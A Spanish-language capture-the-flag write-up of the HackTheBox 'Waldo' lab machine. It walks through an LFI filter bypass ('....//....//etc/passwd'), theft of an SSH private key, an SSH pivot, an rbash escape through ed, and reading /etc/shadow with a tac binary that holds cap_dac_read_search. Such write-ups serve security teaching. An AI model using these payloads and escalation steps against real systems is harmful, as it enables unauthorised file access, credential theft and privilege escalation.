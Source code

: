 ```yaml
---
layout      : post
title       : "HackTheBox - Waldo"
author      : lanz
image       : https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/waldo/149banner.png
category    : [ htb ]
tags        : [ LFI, ssh-keys, capabilities, restricted-bash, tac ]
---
```

Máquina linux nivel medio. Los lindos **LFI**, jugueteo con **SSH**, llaves privadas traviesas, bypass de shells restringidas yyyyyy cositas con las **CAPA**cidades **BILITIES**as.

![149waldoHTB](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/waldo/149waldoHTB.png)

## TL;DR (Spanish writeup)

**Creada por**: [strawman](https://www.hackthebox.eu/profile/1895) & [capnspacehook](https://www.hackthebox.eu/profile/35484).

Juguetona juguetonaaaa.

Inicialmente nos encontraremos un servidor web que nos permite crear listas de ítems, jugando con `BurpSuite` veremos que dos peticiones están interactuando directamente con archivos del sistema, jugaremos con eso para conseguir `LFI (Local File Inclusion)` y leer archivos del sistema. Llegaremos a encontrar una llave privada con el nombre de archivo `.monitor` y algunos usuarios, entre ellos a `nobody`, testeando la llave privada contra ese usuario lograremos obtener una Shell en un contenedor por medio de `SSH`.

Dentro veremos que existen dos servicios `SSH` corriendo, uno en el puerto `22` y otro en el puerto `8888` (en este nos conectamos nosotros), con esto en mente y explorando el directorio `.ssh` llegaremos a otro usuario, uno llamado `monitor`, jugando de nuevo con la llave privada (que se llama como ese usuario 🤪) y el **SSH local** obtendremos una sesión como él en la máquina host.

Llegaremos y estaremos restringidos con una `rbash (restricted bash)`, enumerando sabremos que solo podemos ejecutar `4` comandos, entre ellos `ed` pero restringido (`red` de **r**estricted ed). Apoyados en la web veremos que podemos ejecutar comandos estando dentro del editor `ed`, generaremos una `/bin/bash` para escapar de la **bash restringida**.

Finalmente viendo que `capabilities` existen en el sistema encontraremos `cap_dac_read search` asignada a dos binarios, uno de ellos es `tac` (`cat` pero al revés, literal). La capability nos permite bypassear los permisos de lectura que tenga cualquier archivo, por lo que podremos leer objetos del sistema sin restricción.

A pesar de encontrar una `id_rsa` en el directorio `/root` no lograremos una sesión como él, esto gracias a la configuración `SSH` que no permite que el usuario `root` obtenga una Shell por ese medio :(

...

### Clasificación de la máquina según la gentesita

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/waldo/149statistics.png" style="display: block; margin-left: auto; margin-right: auto; width: 80%;"/>

Con vulns conocidas (más o menos) pero algo juguetona, aunque escala a la realidad.

> Escribo para tener mis "notas", por si algun dia se me olvida todo, leer esto y reencontrarme (o talvez no) :) además de enfocarme en plasmar mis errores y exitos (por si ves mucho texto), todo desde una perspectiva más de enseñanza que de solo mostrar lo que hice.

...

Es momento de beber agua.

1. [Reconocimiento](#reconocimiento).
  * [Encontramos puertos abiertos con ayuda de nmap](#enum-nmap).
2. [Enumeración](#enumeracion).
  * [Recorremos el servidor web sobre el puerto 80](#puerto-80).
3. [Explotación](#explotacion).
  * [Encontramos **LFI** en el servidor web](#lfi).
4. [Movimiento lateral (movimientos sensuales con **SSH**) nobody -> monitor](#ssh-8888-22).
  * [Bypasseamos la **Shell restringida** en la que estamos](#rbash-bypass).
5. [Escalada de privilegios](#escalada-de-privilegios).

...

# Reconocimiento [#](#reconocimiento) {#reconocimiento}

...

## Enumeración de puertos con nmap [📌](#enum-nmap) {#enum-nmap}

Vamos a empezar enumerando los puertos activos de la máquina, así vamos viendo por donde encaminarnos:

```bash
❱ nmap -p- --open -v 10.10.10.87 -oG initScan
```

| Parámetro | Descripción |
| --------- | :---------- |
| -p-       | Escanea todos los 65535                      |
| --open    | Solo los puertos que están abiertos          |
| -v        | Permite ver en consola lo que va encontrando |
| -oG       | Guarda el output en un archivo con formato grepeable para usar una [función **extractPorts**](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/magic/extractPorts.png) de [S4vitar](https://s4vitar.github.io/) que me extrae los puertos en la clipboard |

Este escaneo nos devuelve:

```bash
❱ cat initScan
# Nmap 7.80 scan initiated Thu Aug  5 25:25:25 2021 as: nmap -p- --open -v -oG initScan 10.10.10.87
# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 10.10.10.87 ()	Status: Up
Host: 10.10.10.87 ()	Ports: 22/open/tcp//ssh///, 80/open/tcp//http///
# Nmap done at Thu Aug  5 25:25:25 2021 -- 1 IP address (1 host up) scanned in 98.88 seconds
```

| Puerto | Descripción |
| ------ | :---------- |
| 22     | **[SSH](https://www.hackingarticles.in/ssh-penetration-testing-port-22/)**: Posibilidad de una Shell de manera segura. |
| 80     | **[HTTP](https://searchnetworking.techtarget.com/definition/port-80)**: Nos brinda un servidor web. |

Listos, ahora vamos a enfocarnos en escanear las versiones y scripts que estén relacionados con cada servicio:

**~(Usando la función `extractPorts` (referenciada antes) podemos copiar rápidamente los puertos en la clipboard, así no tenemos que ir uno a uno**

```bash
❱ extractPorts initScan 
[*] Extracting information...

    [*] IP Address: 10.10.10.87
    [*] Open ports: 22,80

[*] Ports copied to clipboard
```

**)~**

```bash
❱ nmap -p 22,80 -sC -sV 10.10.10.87 -oN portScan
```

| Parámetro | Descripción |
| --------- | :---------- |
| -p        | Escaneo de los puertos obtenidos                       |
| -sC       | Muestra todos los scripts relacionados con el servicio |
| -sV       | Nos permite ver la versión del servicio                |
| -oN       | Guarda el output en un archivo                         |

Y con este escaneo vemos:

```bash
❱ cat portScan
# Nmap 7.80 scan initiated Thu Aug  5 25:25:25 2021 as: nmap -p 22,80 -sC -sV -oN portScan 10.10.10.87
Nmap scan report for 10.10.10.87
Host is up (0.11s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.5 (protocol 2.0)
| ssh-hostkey: 
|   2048 c4:ff:81:aa:ac:df:66:9e:da:e1:c8:78:00:ab:32:9e (RSA)
|   256 b3:e7:54:6a:16:bd:c9:29:1f:4a:8c:cd:4c:01:24:27 (ECDSA)
|_  256 38:64:ac:57:56:44:d5:69:de:74:a8:88:dc:a0:b4:fd (ED25519)
80/tcp open  http    nginx 1.12.2
|_http-server-header: nginx/1.12.2
| http-title: List Manager
|_Requested resource was /list.html
|_http-trane-info: Problem with XML parsing of /evox/about

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Aug  5 25:25:25 2021 -- 1 IP address (1 host up) scanned in 20.86 seconds
```

Perefeeeesto, ¿qué podemos destacar?

| Puerto | Servicio | Versión |
| :----- | :------- | :------ |
| 22     | SSH      | OpenSSH 7.5 (protocol 2.0) |
| 80     | HTTP     | nginx 1.12.2 |

Vemos un archivo llamado `list.html`, pero poco podemos hacer o entender sobre él, así que empecemos a explorar y ver por donde explotar la máquina.

...

# Enumeración [#](#enumeracion) {#enumeracion}

...

## Puerto 80 [📌](#puerto-80) {#puerto-80}

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/waldo/149page80.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Una locura de colores y sabores 😁 vemos inicialmente un botón para añadir lista, si damos clic sobre él obtendríamos algo así:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/waldo/149page80_addList.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Se nos genera un ítem con el cual podemos interactuar de dos maneras: `Delete` o inspeccionando su contenido (dando clic en `list1`):

* Con `Delete` simplemente lo borramos.
* Con `list1` (al dar clic) se nos dan dos opciones más, `Add` (añadimos un ítem a la lista) y `Back` para regresar a la lista de listas e.e

Muy lindo ¿pero y queeeeeeeee? Si enumeramos un poquitico más a fondo y leemos el código fuente de la web vemos el llamado a un archivo `.js`:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/waldo/149page80_sourceCode_listHTML.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Si nos movemos ahora a ese recurso vemos tooooodas las definiciones interactivas de la web al jugar con las listas y los ítems, el archivo es gigante:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/waldo/149page80_sourceCode_listJS.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Bien, si leemos algunas líneas ya vemos cositas interesantes: 

* Peticiones `POST`.
* Referencia a archivos:
  * `fileWrite.php`
  * `fileDelete.php`
  * `dirRead.php`
  * `fileRead.php`

Todos con nombres interesantes. Pues abramos `BurpSuite` e interceptemos esas peticiones **POST**, jugamos con el `repeater` y vamos acumulando cada petición, finalmente tenemos:

...

# Explotación [#](#explotacion) {#explotacion}

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/waldo/149burp_tabs_requests.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Si nos fijamos de los 4 recursos, hay dos muuuy llamativos, `fileRead.php` y `dirRead.php`, inspeccionemos **fileRead.php**:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/waldo/149burp_fileRead_res.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Ufff uff ufffff, esa variable `file` se ve juguetona:

```html
file=./.list/list1
```

Al parecer indica que de la ruta actual entre al directorio `.list` y de él muestre el archivo `list1`.

---

## Encontramos **LFI** en el servidor web [📌](#lfi) {#lfi}

Pues lo primero que se nos viene a la cabeza es intentar un **LFI (Inclusion Local de Archivos)** para ver si de alguna manera logramos enumerar objetos del sistema a los que normalmente no deberíamos tener acceso...

* [¿Cómo funciona una vulnerabilidad Local File Inclusion?](https://www.welivesecurity.com/la-es/2015/01/12/como-funciona-vulnerabilidad-local-file-inclusion/).

Si recordamos en nuestro escaneo de **nmap** habíamos visto el archivo `list.html` (que sería el home), intentemos encontrarlo:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/waldo/149burp_fileRead_findLISThtml_fail.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/waldo/149burp_fileRead_findLISThtml_done.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Pero claro que siiiiiiiiiiiii, encontramos un **LFI**, peeeeeerfectoooo. Usémoslo para encontrar los `.php` y ver su contenido:

```html
file=./fileRead.php
```

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/waldo/149burp_LFI_fileRead.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Tomemos su contenido y guardémoslo en un archivo de nuestra máquina, hagamos que los saltos de línea que están como texto (`\n`) se conviertan en verdaderos saltos de línea y lo mismo con las tabulaciones (`\t`):

```bash
❱ sed -i 's/\\n/\n/g' fileRead.php
❱ sed -i 's/\\t/\t/g' fileRead.php
# Este para quitar algunos escapes (\) que hay:
❱ sed -i 's/\\//g' fileRead.php
```

Obtendríamos ahora si el archivo bien lindo:

```php
<?php

if($_SERVER['REQUEST_METHOD'] === "POST"){
    $fileContent['file'] = false;
    header('Content-Type: application/json');
    if(isset($_POST['file'])){
        header('Content-Type: application/json');
        $_POST['file'] = str_replace( array("../", ".."), "", $_POST['file']);
        if(strpos($_POST['file'], "user.txt") === false){
            $file = fopen("/var/www/html/" . $_POST['file'], "r");
            $fileContent['file'] = fread($file,filesize($_POST['file']));  
            fclose();
        }
    }
    echo json_encode($fileContent);
}
```

Si nos fijamos, hay dos validaciones interesantes:

* `$_POST['file'] = str_replace( array("../", ".."), "", $_POST['file']);`
  * Lo que hace es tomar el valor de la variable `file` y si en su contenido existen/encuentra ya sea `../` o `..` los remplaza por: `` (vacío).

  Por lo que si enviamos:

  ```html
  file=../../../etc/passwd
  ```

  Se convertirá en:

  ```html
  file=etc/passwd
  ```

  <img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/waldo/149bash_scriptPHP_example_strReplace.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

  Y abre el archivo dentro de la ruta `/var/www/html` simplemente con:

  ```html
  $file = fopen("/var/www/html/" . $_POST['file'], "r");
  $fileContent['file'] = fread($file,filesize($_POST['file']));  
  fclose();
  ...
  echo json_encode($fileContent);
  ```

Sabemos que hay un filtro para evitar movernos entre rutas, ¿pero y si intentamos romperlo? Haciendo distintas pruebas llegamos finalmente a esta:

* [LFI - Filter bypass tricks](https://book.hacktricks.xyz/pentesting-web/file-inclusion#filter-bypass-tricks).

---

```php
file=....//....//....//etc/passwd
```

Que se convertirá en:

```php
file=///etc/passwd
```

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/waldo/149burp_LFI_etcPasswd.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

> No entiendo muy bien el porque esa cadena nos da la explotación ya que relativamente no es una ruta valida (por los `//` iniciales), si sabes el porqué, chárlame, quizás estoy obviando algo :)

Maravelooooso, tenemos acceso ahora a los archivos del sistema. Si le damos el formato correcto al objeto `passwd` tendríamos:

```bash
root:x:0:0:root:/root:/bin/ash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
news:x:9:13:news:/usr/lib/news:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
operator:x:11:0:operator:/root:/bin/sh
man:x:13:15:man:/usr/man:/sbin/nologin
postmaster:x:14:12:postmaster:/var/spool/mail:/sbin/nologin
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
ftp:x:21:21::/var/lib/ftp:/sbin/nologin
sshd:x:22:22:sshd:/dev/null:/sbin/nologin
at:x:25:25:at:/var/spool/cron/atjobs:/sbin/nologin
squid:x:31:31:Squid:/var/cache/squid:/sbin/nologin
xfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin
games:x:35:35:games:/usr/games:/sbin/nologin
postgres:x:70:70::/var/lib/postgresql:/bin/sh
cyrus:x:85:12::/usr/cyrus:/sbin/nologin
vpopmail:x:89:89::/var/vpopmail:/sbin/nologin
ntp:x:123:123:NTP:/var/empty:/sbin/nologin
smmsp:x:209:209:smmsp:/var/spool/mqueue:/sbin/nologin
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/home/nobody:/bin/sh
nginx:x:100:101:nginx:/var/lib/nginx:/sbin/nologin
```

Como usuarios interesantes tenemos: `root`, `operator` y `nobody`.

Jugando con algunos archivos por default no encontramos nada más :( acá recaemos en el objeto `dirRead.php`:

```html
file=./dirRead.php
```

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/waldo/149burp_LFI_fileRead2dirRead.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Hacemos de nuevo el formateo y obtenemos:

```php
<?php

if($_SERVER['REQUEST_METHOD'] === "POST"){
    if(isset($_POST['path'])){
        header('Content-type: application/json');
        $_POST['path'] = str_replace( array("../", ".."), "", $_POST['path']);
        echo json_encode(scandir("/var/www/html/" . $_POST['path']));
    }else{
        header('Content-type: application/json');
        echo '[false]';
    }
}
```

En este objeto simplemente toma la variable `path`, vuelve a validar que no tengan `..` o `../` y hace un `scandir` (como un `ls`) sobre esa ruta:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/waldo/149burp_LFI_dirRead.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

O podemos ver tooodos los objetos que usa la web simplemente borrando el directorio `.list` de la variable:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/waldo/149burp_LFI_dirRead_list.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Ese sería su uso normal, ¿pero y si volvemos a tomar nuestro "payload" con el que vimos archivos del sistema y lo usamos para listar directorios? 👀

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/waldo/149burp_LFI_dirRead_list_withpayload.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

😄 ***¿Esa petición es real o solo cambié el valor de la variable `path` para hacerles creer que funciona?***

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/waldo/149burp_LFI_dirRead_rootsystem.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Pues era reaaaaaal, tenemos ahora acceso a listar directorios del sistemaaaaaaaaaaaa (a los que tengamos acceso, claramente 🤭)

Después de movernos entre rutas encontramos este conjunto de directorios:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/waldo/149burp_LFI_dirRead_home.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/waldo/149burp_LFI_dirRead_home_nobody.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Un directorio `.ssh`, podemos inspeccionarlo a ver si hay llaves de acceso que le permitan a algún usuario ingresar al sistema sin necesidad de colocar contraseñas, esto simplemente conectándose con una llave: 

* [Concepto **SSH Keys**](https://www.digitalocean.com/community/tutorials/how-to-set-up-ssh-keys-2).

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/waldo/149burp_LFI_dirRead_home_nobody_ssh.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Un objeto llamado `.monitor` que si intentamos usarlo como directorio nos devuelve un `false`, por lo que no es un directorio, peeeeeeeeeeero, tenemos por otro lado el archivo para leer objetos del sistema, usémoslo para ver su contenido:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/waldo/149burp_LFI_fileRead_ssh_monitor.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

OPAAAAAAAAAAAAAAAAAA una llave **SSH** privada, pues pasémosla a nuestro sistema, démosle el formato lindo e intentemos usarla contra el sistema víctima, quizás es funcional para algún usuario actual.

Debemos darle los permisos necesarios, así evitamos problemas:

```bash
❱ chmod 600 monitor_idRSA
```

Jugando con los usuarios que encontramos antes, si intentamos la conexión como `nobody` logramos obtener una sesión en el sistema:

```bash
❱ ssh nobody@10.10.10.87 -i monitor_idRSA
```

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/waldo/149bash_ssh_nobodySH.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Perfectisiiiiimo, tamos dentrooooo (:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/waldo/149google_gif_go_on.gif" style="display: block; margin-left: auto; margin-right: auto; width: 70%;"/>

...

# Movimiento lateral (jueguitos con SSH): nobody -> monitor [#](#ssh-8888-22) {#ssh-8888-22}

Estamos en un contenedor y hay poquitas cosas que hacer y sobre todo que enumerar...

Si revisamos los servicios activos tanto locales como en uso vemos el puerto `8888` y el puerto `9000`:

```bash
waldo:~/.ssh$ netstat -lant Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN
tcp        0      0 0.0.0.0:8888            0.0.0.0:*               LISTEN
tcp        0      0 127.0.0.1:9000          0.0.0.0:*               LISTEN
tcp        0      0 10.10.10.87:8888        10.10.14.6:49726        ESTABLISHED 
tcp        0      0 :::80                   :::*                    LISTEN
tcp        0      0 :::22                   :::*                    LISTEN
tcp        0      0 :::8888                 :::*                    LISTEN
```

Vemos que nuestra conexión con la máquina se estableció sobre el puerto `8888`, lo cual es extraño porque nosotros ingresamos usando `SSH` por lo que debería ser el puerto `22` el que tendría que estar establecido, si nos vamos rápidamente a la configuración `SSH` del sistema vemos esto:

```bash
waldo:~/.ssh$ cat /etc/ssh/sshd_config          
...
Port 8888
...
```

El puerto `8888` es el que sirve el servicio **SSH**, ¿pero y entonces el puerto `22` que vimos arriba? Hay dos servicios `SSH` lo cual esta muy loco :o

Si recordamos nosotros entramos a la máquina por medio de una llave **SSH** de esta ruta:

```bash
waldo:~/.ssh$ pwd
/home/nobody/.ssh
waldo:~/.ssh$ ls -la
total 20
drwx------    1 nobody   nobody        4096 Jul 15  2018 .
drwxr-xr-x    1 nobody   nobody        4096 Jul 24  2018 ..
-rw-------    1 nobody   nobody        1675 May  3  2018 .monitor
-rw-------    1 nobody   nobody         394 May  3  2018 authorized_keys
-rw-r--r--    1 nobody   nobody         344 Aug  6 18:53 known_hosts
```

Si revisamos el archivo `authorized_keys` notamos algo distinto:

```bash
waldo:~/.ssh$ cat authorized_keys 
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCzuzK0MT740dpYH17403dXm3UM/VNgdz7ijwPfraXk3B/oKmWZHgkfqfg1xx2bVlT6oHvuWLxk6/KYG0gRjgWbTtfg+q3jN40F+opaQ5zJXVMtbp/zuzQVkGFgCLMas014suEHUhkiOkNUlRtJcbqzZzECV7XhyP6mcSJFOzIyKrWckJJ0YJz+A2lb8AA0g3i9b0qyUuqIAQMl9yFjnmwInnXrZj34jXHOoXx71vXbBVeKu82jw8sacUlXDpIeGY8my572+MAh4f6f7leRtzz/qlx6jCqz26NGQ3Mf1PWUmrgXHVW+L3cNqrdtnd2EghZpZp+arOD6NJOFJY4jBHvf monitor@waldo
```

¿Un usuario llamado `monitor` del sistema en el que estamos? Pero si habíamos visto que solo existían los usuarios `root`, `operator` y `nobody`.

Puuuuues como prueba podemos jugar con la llave privada de `nobody` (que el archivo se llama `.monitor` u.u) pero ahora contra el usuario `monitor`, solo que apuntamos al servicio `SSH` corriendo en el puerto `22` localmente, aaaa ver:

```bash
waldo:~/.ssh$ ssh monitor@localhost -i .monitor
```

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/waldo/149bash_ssh_monitorSH1.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/waldo/149bash_ssh_monitorSH2.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Varias cositas interesantes:

1. ESTAMOS DEEEEEEEEEEEEEEEEEENTROOOO como **monitor**.
2. La máquina se pone juguetona con la bienvenida que nos da.
3. Estamos en alguna Shell restringida, por lo que no podemos hacer muchas cositas :(

Bien, bien, mal. No podemos hacer casi nada, ni `cd`, ni `cat`, nada de nada.

---

## Bypasseamos la <u>Shell restringida</u> [📌](#rbash-bypass) {#rbash-bypass}

---

```bash
monitor@waldo:~$ cd ..
-rbash: cd: restricted
```

Si revisamos el `$PATH` (para saber en qué rutas busca el sistema los programas que pasamos como comandos) vemos:

```bash
monitor@waldo:~$ echo $PATH
/home/monitor/bin:/home/monitor/app-dev:/home/monitor/app-dev/v0.1
```

Y si revisamos por ejemplo la primera ruta, tendríamos los binarios que podemos ejecutar:

```bash
monitor@waldo:~$ ls -la /home/monitor/bin
total 8
dr-xr-x--- 2 root monitor 4096 May  3  2018 .
drwxr-x--- 5 root monitor 4096 Jul 24  2018 ..
lrwxrwxrwx 1 root root       7 May  3  2018 ls -> /bin/ls
lrwxrwxrwx 1 root root      13 May  3  2018 most -> /usr/bin/most
lrwxrwxrwx 1 root root       7 May  3  2018 red -> /bin/ed
lrwxrwxrwx 1 root root       9 May  3  2018 rnano -> /bin/nano
```

Solo `4` comandos... Ejecutando `echo $SHELL` sabemos que estamos un una `rshell` o sea una `restricted shell`. Buscando en internet maneras de bypassear esto ninguna opción nos funciona, pero nos da ideas para intentar contra los binarios que tenemos:

* [Técnicas para escapar de shells restringidas (restricted shells bypassing)](https://www.hackplayers.com/2018/05/tecnicas-para-escapar-de-restricted--shells.html).

Después de un rato encontramos [este post](https://www.geeksforgeeks.org/ed-command-in-linux-with-examples/) que nos habla sobre el comando `ed` (que restringido seria `red`) que sirve como editor de texto. Pero ese post nos muestra su funcionamiento, validemos si hay alguna manera de ejecutar comandos con él...

* [ed - Unix, Linux Command](https://www.tutorialspoint.com/unix_commands/ed.htm).

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/waldo/149google_ed_exeCommand.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Opaaaa, podemos usar `!commando` para que sea interpretada con una `sh`. Pues intentemos simplemente spawnearnos una `/bin/bash` a ver si logramos salir de la `rbash`:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/waldo/149bash_nobodySH_ed_bypassRSHELL_done.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

OJITOOOOOOOOOOOOO podemos movernooooooooos entre directorios, pero claro aún no podemos ejecutar `id` porque el sistema no encuentra un binario en toooodas las rutas del `PATH` que este asociado a ese comando, pero eso es sencillo, solo debemos modificar el valor de la variable `PATH` por las rutas donde `linux` tiene todooos los binarios:

* [Si no tienes ni idea de eso dizque el "PATH"](https://opensource.com/article/17/6/set-path-linux).

(Podemos hacer en nuestra máquina `echo $PATH` y copiar las del sistema (las que no tienen nuestro usuario) o buscar en internet las rutas)

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/waldo/149bash_monitorSH_updatingPATHvariable.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Perrrrrrfecto, ahora si tenemos acceso a los comandos del sistema, si ga mos...

🏇 ***Después de que algunos binarios no los encontraba, finalmente nuestro `PATH` queda así:***

```bash
monitor@waldo:~$ echo $PATH
/sbin:/usr/sbin:/bin:/usr/bin:/usr/local/bin:/home/monitor/bin:/home/monitor/app-dev:/home/monitor/app-dev/v0.1
```

...

# Escalada de privilegios [#](#escalada-de-privilegios) {#escalada-de-privilegios}

Enumerando las **capabilities** del sistema (que serian como pequeñas instrucciones **privilegiadas** otorgadas a X proceso(s)) encontramos:

```bash
monitor@waldo:~$ getcap -r / 2>/dev/null
/usr/bin/tac = cap_dac_read_search+ei
/home/monitor/app-dev/v0.1/logMonitor-0.1 = cap_dac_read_search+ei
```

Actualmente contamos con dos archivos usando la capability [CAP_DAC_READ_SEARCH](https://book.hacktricks.xyz/linux-unix/privilege-escalation/linux-capabilities#cap_dac_read_search), la cual permite **bypassear los permisos de lectura que existan en los archivos** 😮 kooooooooomoooo? 😈

*Más info sobre `capabilities`*:

* [Understanding Linux Capabilities Series (Part I)](https://blog.pentesteracademy.com/linux-security-understanding-linux-capabilities-series-part-i-4034cf8a7f09).
* [Linux Capabilities: Why They Exist and How They Work](https://blog.container-solutions.com/linux-capabilities-why-they-exist-and-how-they-work).

Uno de los dos se relaciona con el usuario `monitor`, pero inicialmente me llamo la atención la de `tac`, [buscando que hace ese comando](https://www.howtoforge.com/linux-tac-command/) en `Linux`, es prácticamente un `ca, pero que imprime el resultado al revés, básicamente:

```bash
monitor@waldo:/tmp$ cat hola.txt 
hola
si
nop
monitor@waldo:/tmp$ tac hola.txt 
nop
si
hola
```

Pero recordemos que el binario `tac` tiene la capability que le permite saltarse los permisos de lectura de cualquier archivo, por lo que podemos hacer una prueba sencilla con el archivo `/etc/shadow`, a él simplemente tiene acceso `root` (o algún usuario privilegiado), por lo que si intentáramos abrirlo con `cat` deberíamos obtener un `permission denied`:

```bash
monitor@waldo:/tmp$ cat /etc/shadow
cat: /etc/shadow: Permission denied
```

Efectivamente, no tenemos permisos para ver su contenido... ¿Peeeeroooo y con `tac`?

```bash
monitor@waldo:/tmp$ tac /etc/shadow
```

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/waldo/149bash_monitorSH_tac_etcShadow.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

VAMOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOO podemos leer archivos privilegiaaaados del sistemaaaaaaaaaaaaaaaa.

